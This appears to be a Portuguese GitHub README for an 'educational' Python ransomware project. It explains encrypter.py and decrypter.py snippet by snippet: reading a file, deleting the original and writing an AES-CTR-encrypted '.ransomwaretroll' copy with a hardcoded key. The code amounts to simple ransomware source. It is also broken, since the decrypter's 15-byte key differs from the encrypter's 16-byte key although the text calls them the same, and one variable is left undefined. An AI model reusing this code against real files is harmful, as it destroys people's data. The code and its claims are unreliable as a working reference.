 # 🛡️ Projeto Ransomware em Python  

Este projeto é uma implementação prática de um **ransomware educacional** em Python, com o objetivo de demonstrar conceitos básicos de criptografia, manipulação de arquivos e segurança cibernética.  

---

## 🔍 Explicação dos Códigos  

### 📄 **`encrypter.py`**:  

Este script criptografa um arquivo existente e remove o arquivo original.  

#### **Etapas principais:**  

1. **Importação de bibliotecas**:  
   ```python
   import os
   import pyaes
   ```
   - `os`: Para manipulação de arquivos (remover e criar arquivos).  
   - `pyaes`: Para realizar a criptografia utilizando o algoritmo AES.  

2. **Abrir o arquivo a ser criptografado**:  
   ```python
   with open(file_name, 'rb') as file:
       file_data = file.read()
   ```
   - Abre o arquivo no modo binário (`rb`) e lê seu conteúdo.  

3. **Remover o arquivo original**:  
   ```python
   os.remove(file_name)
   ```
   - Exclui o arquivo original para simular o comportamento de um ransomware real.  

4. **Definir a chave de criptografia**:  
   ```python
   key = b"testeransomwares"
   aes = pyaes.AESModeOfOperationCTR(key)
   ```
   - Define uma chave de 16 bytes para o AES no modo CTR.  

5. **Criptografar o conteúdo do arquivo**:  
   ```python
   crypto_data = aes.encrypt(file_data)
   ```
   - Criptografa os dados lidos do arquivo.  

6. **Salvar o arquivo criptografado**:  
   ```python
   new_file = file_name + '.ransomwaretroll'
   with open(new_file, 'wb') as new_file:
       new_file.write(crypto_data)
   ```
   - Cria um novo arquivo com a extensão `.ransomwaretroll` contendo os dados criptografados.  

---

### 📄 **`decrypter.py`**:  

Este script descriptografa um arquivo criptografado e recria o arquivo original.  

#### **Etapas principais:**  

1. **Importação de bibliotecas**:  
   ```python
   import os
   import pyaes
   ```
   - Mesmas bibliotecas usadas no `encrypter.py`.  

2. **Abrir o arquivo criptografado**:  
   ```python
   with open(file_name, 'rb') as file:
       file_data = file.read()
   ```
   - Lê os dados do arquivo criptografado no modo binário (`rb`).  

3. **Definir a chave de descriptografia**:  
   ```python
   key = b"testeransomware"
   aes = pyaes.AESModeOfOperationCTR(key)
   ```
   - Usa a mesma chave definida no `encrypter.py`.  

4. **Descriptografar o conteúdo do arquivo**:  
   ```python
   decrypt_data = aes.decrypt(file_data)
   ```
   - Descriptografa os dados para restaurar o conteúdo original.  

5. **Remover o arquivo criptografado**:  
   ```python
   os.remove(file_name)
   ```
   - Exclui o arquivo criptografado após sua descriptografia.  

6. **Salvar o arquivo descriptografado**:  
   ```python
   with open(new_file, 'wb') as new_file:
       new_file.write(decrypt_data)
   ```
   - Cria o arquivo original com os dados descriptografados.  

---

### 🔑 **Sobre o AES (Advanced Encryption Standard)**  

O algoritmo AES é um método amplamente utilizado para criptografia simétrica, onde a mesma chave é usada para criptografar e descriptografar os dados.  
- **Modo CTR (Counter)**: Permite que o AES opere como um fluxo de cifras, tornando a criptografia mais eficiente e flexível.  

---

> **⚠️ Aviso:** Este projeto é apenas para fins educacionais e deve ser utilizado de forma ética. Não use este código para atividades maliciosas.  

---
```
